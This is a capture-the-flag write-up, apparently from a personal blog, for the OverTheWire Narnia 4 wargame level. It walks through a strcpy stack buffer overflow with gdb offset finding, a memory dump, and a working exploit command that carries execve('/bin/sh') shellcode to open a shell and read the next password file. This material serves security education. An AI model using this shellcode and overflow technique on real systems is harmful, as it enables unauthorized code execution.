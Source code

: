 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 4 -> 5"
subtitle:   "Write-Up"
date:       2017-03-09 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Today we'll be dealing with another reverse engineering challenge from Overthewire - pretty quick, but fun as always!  </p>

<h1>Challenge</h1>

<p>This code is a lot shorter, compared to the previous ones, making it much easier to analyze. </p>

{% highlight c %}
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
	int i;
	char buffer[256];

	for(i = 0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));

	if(argc>1)
		strcpy(buffer,argv[1]);

	return 0;
}

{% endhighlight %}

<p>Yeah, we have a buffer of 256 bytes, which gets the content, using dangerous <b>strcpy</b> function straight from the argument variable. This challenge looks a lot like the second one, so maybe we will also be able to put shellcode somewhere in the buffer? </p>

<p>Actually, after a little bit of tinktering in <b>gdb</b>, I've found that providing the binary with 273 "A" letters and 7 "B" letters will overwrite our buffer, together with return address.  </p>

{% highlight bash %}
(gdb) run $(python -c 'print "A" * 272 + "BBBBBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia4 $(python -c 'print "A" * 272 + "BBBBBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
{% endhighlight %}

<p>Now let's take a look at the memory. </p>

{% highlight text %}
0xffffd800:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd810:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd820:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
---Type <return> to continue, or q <return> to quit---
0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8b0: 0x41414141  0x41414141  0x42424141  0x42424242
0xffffd8c0: 0x00004242  0x00000000  0x00000000  0x00000000
0xffffd8d0: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd8e0: 0x00000000  0x00000000  0x00000000  0x00000000
{% endhighlight %}

<p>From this we know that we have somewhere around 272 bytes for the shellcode with some additional bytes that will overwrite the return address. Now we can construct the command, using code from the previous levels. </p>

<p>As we already know that our payload is 25 bytes in size, we will have to: firstly write 247 "A" letters, then 25 bytes of shellcode and lastly overwriting the <b>EIP register</b>, which then will be placed somewhere in the middle of "A" letters. By looking at the debug of the memory, I'm going to choose it as <b>0xffffd850</b>.  </p>

{% highlight bash %}
narnia4@melinda:/narnia$ ./narnia4 $(python -c'print "A" * 247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"')
$ cat /etc/narnia_pass/narnia5
********
{% endhighlight %}

<p>Once again we have the password to the next level! </p>

<h1>Conclusion</h1>
<p>Another big thanks  to <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm looking forward to the next challenges! </p>


<p>~ Stay safe!</p>
